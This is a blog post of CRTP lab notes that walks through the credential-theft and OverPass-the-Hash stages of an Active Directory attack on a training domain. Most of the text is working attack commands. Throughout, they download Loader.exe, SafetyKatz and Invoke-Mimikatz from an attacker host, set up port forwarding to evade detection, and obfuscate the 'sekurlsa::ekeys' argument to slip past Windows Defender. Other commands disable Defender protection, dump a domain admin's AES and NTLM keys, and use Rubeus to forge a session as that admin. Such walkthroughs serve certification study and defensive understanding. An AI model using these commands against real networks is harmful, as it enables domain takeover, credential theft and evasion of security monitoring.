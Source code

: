 ```yaml
---
title: Active Directory (AD) | Local Privilege Escalation (Part 2)
date: 2024-07-01 00:00:00 +0800
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: Designed to provide a comprehensive guide to Active Directory (AD) attack techniques
---
```


## **Step 4: Extract Credential**

**Tools Used:** SafetyKatz.exe

### **Abuse using winrs**
To extract credentials from dcorp-mgmt, we will use SafetyKatz.exe. We need to avoid direct detection, so we'll transfer Loader.exe from dcorp-ci to dcorp-mgmt.

- Ensure WinRM Port is Open 

First, check if you can execute commands on dcorp-mgmt and confirm if the WinRM port is open:

```bash
winrs -r:dcorp-mgmt hostname;whoami
```
![Result](/img/crtp/result7.png){: width="972" height="589" }

- Download Loader.exe

Download Loader.exe to dcorp-ci:

```bash
iwr http://172.16.100.x/Loader.exe -OutFile C:\Users\Public\Loader.exe
```

- Copy Loader.exe to dcorp-mgmt

Copy Loader.exe from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```

- Set Up Port Forwarding

Establish port forwarding on dcorp-mgmt to evade detection. Use $null for output redirection to prevent command execution issues:

```bash
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

- Generate Encoded Arguments

To bypass Windows Defender on dcorp-mgmt, encode arguments passed to Loader. Run the below command on the student VM to generate encoded arguments for sekurlsa::ekeys (this step does not need to be run on the reverse shell):

```bash
ArgSplit.bat
```

![Result](/img/crtp/result8.png){: width="972" height="589" }

- Create Batch File

Create a batch file with the encoded arguments. Below are the contents of the batch file(Safety.bat):
```bash
@echo off
set "z=s"
set "y=y"
set "x=e"
set "w=k"
set "v=e"
set "u=:"
set "t=:"
set "s=a"
set "r=s"
set "q=l"
set "p=r"
set "o=u"
set "n=k"
set "m=e"
set "l=s"
set "Pwn=%l%%m%%n%%o%%p%%q%%r%%s%%t%%u%%v%%w%%x%%y%%z%"
echo %Pwn%
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -Args %Pwn%
exit
```

Download the batch file on dcorp-ci:
```bash
iwr http://172.16.100.x/Safety.bat -OutFile C:\Users\Public\Safety.bat
```

- Copy Safety.bat to dcorp-mgmt

Copy the batch file from dcorp-ci to dcorp-mgmt:

```bash
echo F | xcopy C:\Users\Public\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```

- Execute Safety.bat

Run the batch file on dcorp-mgmt that uses Loader.exe to download and execute SafetyKatz.exe in-memory on dcorp-mgmt:

```bash
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Safety.bat"
```

If successful, you should see output similar to:

```bash
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
 * Username : svcadmin
 * Domain : DOLLARCORP.MONEYCORP.LOCAL
 * Password : (null)
* Key List :
 aes256_hmac 
6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
 rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old b38ff50264b74508085d82c69794a4d8
 rc4_md4 b38ff50264b74508085d82c69794a4d8
 rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
 rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
```

Sweet! We got credentials of svcadmin - a domain administrator. Note that svcadmin is used as a service account (see "Session" in the above output), so you can even get credentials in clear-text from lsasecrets!

### **Abuse using PowerShell Remoting**

- Check PowerShell Remoting

First, verify if you can execute commands on the dcorp-mgmt server using PowerShell remoting:

```bash
Invoke-Command -ScriptBlock {$env:username;$env:computername} -ComputerName dcorp-mgmt
```
![Result](/img/crtp/result9.png){: width="972" height="589" }

This command returns the current username (ciadmin) and the computer name (dcorp-mgmt), confirming that PowerShell remoting is functional.

- Dump Hashes using Invoke-Mimikatz

To extract hashes, especially those of the domain admin (svcadmin), use Invoke-Mimikatz. First, host Invoke-Mimikatz.ps1 on your local machine (studentx) and execute it on the remote machine (dcorp-mgmt):

```bash
iex (iwr http://172.16.100.X/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Disable AMSI on dcorp-mgmt

To use Invoke-Mimikatz on dcorp-mgmt, you need to disable AMSI (Antimalware Scan Interface) since it may detect and block such activities. Here's how you can disable it:

```bash
$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

- Execute Invoke-Mimikatz

After disabling AMSI, execute Invoke-Mimikatz on dcorp-mgmt to dump hashes:
```bash
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```

This command retrieves sensitive information such as authentication details. For instance, it might show:

```bash
Authentication Id : 0 ; 58866 (00000000:0000e5f2)
Session : Service from 0
User Name : svcadmin
Domain : dcorp
Logon Server : DCORP-DC
Logon Time : 3/3/2023 2:39:12 AM
SID : S-1-5-21-719815819-3726368948-3917688648-1118
 * Username : svcadmin
 * Domain : DOLLARCORP.MONEYCORP.LOCAL
 * Password : (null)
 * Key List :
  aes256_hmac 
  6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
  rc4_hmac_nt b38ff50264b74508085d82c69794a4d8
  rc4_hmac_old b38ff50264b74508085d82c69794a4d8
  rc4_md4 b38ff50264b74508085d82c69794a4d8
  rc4_hmac_nt_exp b38ff50264b74508085d82c69794a4d8
  rc4_hmac_old_exp b38ff50264b74508085d82c69794a4d8
```

## **Step 5: OverPass-the-Hash with Rubeus**

Finally, use OverPass-the-Hash to leverage svcadmin's credentials. Execute the following command on the student VM:

- Prepare Arguments for Loader

Generate encoded arguments for Rubeus using ArgSplit.bat:

```bash
C:\Windows\system32>C:\AD\Tools\ArgSplit.bat
[!] Argument Limit: 180 characters
[+] Enter a string: asktgt
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```
These commands set up a variable Pwn with encoded arguments for Rubeus.

- Execute Loader with Rubeus

Run Loader.exe with Rubeus.exe, passing encoded arguments to request a TGT using svcadmin's credentials:

```bash
C:\Windows\system32>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

`/user:svcadmin`: Specifies the user account for which the TGT should be requested.
`/aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011`: The AES256 encryption key used to encrypt the ticket.
`/opsec`: Operates in OPSEC (Operations Security) mode to minimize detection.
`/createnetonly:C:\Windows\System32\cmd.exe`: Creates a new process with network credentials only.
`/show`: Displays detailed output during execution.
`/ptt`: Passes the ticket to the current session.

- Execution and Output

Upon successful execution, Rubeus requests a TGT and imports it into the current session. Example output includes:

```bash
`ServiceName`: The Kerberos service name for which the TGT was requested (krbtgt/dollarcorp.moneycorp.local).
`ServiceRealm`: The realm associated with the Kerberos service (DOLLARCORP.MONEYCORP.LOCAL).
`UserName`: The user for whom the TGT was requested (svcadmin).
```

After obtaining the TGT, access domain resources using tools like winrs:

```bash
C:\Windows\system32>winrs -r:dcorp-dc cmd /c set username
USERNAME=svcadmin
```
This confirms successful use of svcadmin's credentials without direct access to dcorp-mgmt from the student's machine (172.16.100.X).
